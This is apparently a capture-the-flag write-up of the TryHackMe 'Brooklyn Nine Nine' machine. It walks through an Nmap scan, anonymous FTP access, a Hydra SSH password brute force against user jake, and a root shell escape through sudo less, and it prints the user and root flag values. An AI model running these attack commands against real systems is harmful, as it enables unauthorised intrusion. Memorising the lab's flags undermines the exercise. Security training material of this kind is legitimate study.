# Brooklyn Nine Nine

> Platform: TryHackMe
>
> Created by: Fsociety2006
>
> Difficulty: Easy

## Enumeration

First of all, we will begin with the Nmap. Actually, you can just use a normal Nmap command, but here is my preferences.
```bash
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Brooklyn Nine Nine]
└─$ nmap -sVSC <TARGET-IP> -T5 -Pn -n -vvv -oA brooklyn99scan
Nmap scan report for <TARGET-IP>
Host is up, received user-set (0.20s latency).
Scanned at 2025-07-31 22:30:33 +08 for 23s
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:<TARGET-IP>
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQjh/Ae6uYU+t7FWTpPoux5Pjv9zvlOLEMlU36hmSn4vD2pYTeHDbzv7ww75UaUzPtsC8kM1EPbMQn1BUCvTNkIxQ34zmw5FatZWNR8/De/u/9fXzHh4MFg74S3K3uQzZaY7XBaDgmU6W0KEmLtKQPcueUomeYkqpL78o5+NjrGO3HwqAH2ED1Zadm5YFEvA0STasLrs7i+qn1G9o4ZHhWi8SJXlIJ6f6O1ea/VqyRJZG1KgbxQFU+zYlIddXpub93zdyMEpwaSIP2P7UTwYR26WI2cqF5r4PQfjAMGkG1mMsOi6v7xCrq/5RlF9ZVJ9nwq349ngG/KTkHtcOJnvXz
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBItJ0sW5hVmiYQ8U3mXta5DX2zOeGJ6WTop8FCSbN1UIeV/9jhAQIiVENAW41IfiBYNj8Bm+WcSDKLaE8PipqPI=
|   256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP2hV8Nm+RfR/f2KZ0Ub/OcSrqfY1g4qwsz16zhXIpqk
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/
```

From the Nmap results, looks like we can login to the ftp to get the **".txt"** file.
```bash
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Brooklyn Nine Nine]
└─$ ftp ftp@<TARGET-IP>
Connected to <TARGET-IP>.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||28984|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
229 Entering Extended Passive Mode (|||14628|)
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
100% |************************************************|   119      220.09 KiB/s    00:00 ETA
226 Transfer complete.
119 bytes received in 00:00 (0.59 KiB/s)
ftp> exit
221 Goodbye.
```

Try to read the **"note_to_jake.txt"** file:
```bash
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Brooklyn Nine Nine]
└─$ cat note_to_jake.txt   
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

Looks like Jake password are weak, so we may use password dictionaries to bruteforce it.

## Exploitation

Try to run hydra to bruteforce the SSH password for user jake:
```bash
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Brooklyn Nine Nine]
└─$ hydra -l jake -P /usr/share/wordlists/rockyou.txt <TARGET-IP> ssh  
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-31 23:14:14
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://<TARGET-IP>:22/
[22][ssh] host: <TARGET-IP>   login: jake   password: <JAKE-PASSWORD>
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-07-31 23:14:24
```

Nice! We can try SSH now and get the user.txt:
```bash
$ ssh jake@<TARGET-IP>

$ pwd
/home/jake

$ cat /home/holt/user.txt
```

<details>
<summary><b>🏳️Flag: user.txt</b></summary>
<b>ee11cbb19052e40b07aac0ca060c23ee</b>
</details><br>

## Privilege Escalation

Moving on to **escalate our privileges to root**. We need to find what can we leverage to spawn a privilege shell.

First we try to check with the sudo permission first
```bash
$ sudo -l
User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```

Now, let's check how can we spawn a privilege shell by using less. From [GTFObins - Less](https://gtfobins.github.io/gtfobins/less/), we can get privilege shell running the command from the Sudo section.
```bash
$ sudo /usr/bin/less /etc/profile
```

Then, in the file, type:
```bash
!/bin/sh
```

Now, we need to read the **"root.txt"** file to complete this machine.
```
# cat /root/root.txt
```

![img](rootflag.png)

<details>
<summary><b>🏳️Flag: root.txt</b></summary>
<b>63a9f0ea7bb98050796b649e85481845</b>
</details><br>